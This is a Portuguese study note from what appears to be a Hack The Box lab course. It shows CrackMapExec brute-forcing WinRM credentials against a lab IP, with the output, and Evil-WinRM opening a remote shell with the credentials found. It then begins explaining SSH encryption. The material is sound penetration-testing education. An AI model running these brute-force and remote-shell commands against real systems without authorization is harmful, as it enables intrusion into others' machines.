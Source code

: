 ```shell-session
NycolasRamos@htb[/htb]$ crackmapexec smb -h
```

#### Uso do CrackMapExec
O formato geral para usar o CrackMapExec é o seguinte:

```shell-session
NycolasRamos@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```shell-session
NycolasRamos@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

A aparência de `(Pwn3d!)`é o sinal de que podemos muito provavelmente executar comandos do sistema se fizermos login com o usuário do brute force. Outra ferramenta útil  é [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) , que nos permite comunicar com o serviço WinRM de forma eficiente.

#### Evil-WinRM

#### Instalando Evil-WinRM
```shell-session
NycolasRamos@htb[/htb]$ sudo gem install evil-winrm
```

#### Uso do Evil-WinRM
```shell-session
NycolasRamos@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell-session
NycolasRamos@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
```

Se o login for bem-sucedido, uma sessão de terminal será inicializada usando o [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) ( `MS-PSRP`), o que simplifica a operação e a execução de comandos.

## SSH
[Secure Shell](https://www.ssh.com/academy/ssh/protocol) ( `SSH`) é uma maneira mais segura de se conectar a um host remoto para executar comandos do sistema ou transferir arquivos de um host para um servidor. Este serviço usa três operações/métodos de criptografia diferentes: `symmetric`criptografia, `asymmetric`criptografia e `hashing`.

1. **Criptografia Simétrica**: Usa uma única chave para criptografia e descriptografia. A chave deve ser trocada de forma segura entre as partes envolvidas, geralmente usando métodos como o Diffie-Hellman. Exemplos incluem AES, Blowfish e 3DES.

2. **Criptografia Assimétrica**: Utiliza um par de chaves (uma pública e uma privada). A chave privada deve ser mantida em segredo e é usada para descriptografar mensagens criptografadas com a chave pública. É essencial que a chave privada esteja bem protegida para evitar acesso não autorizado.
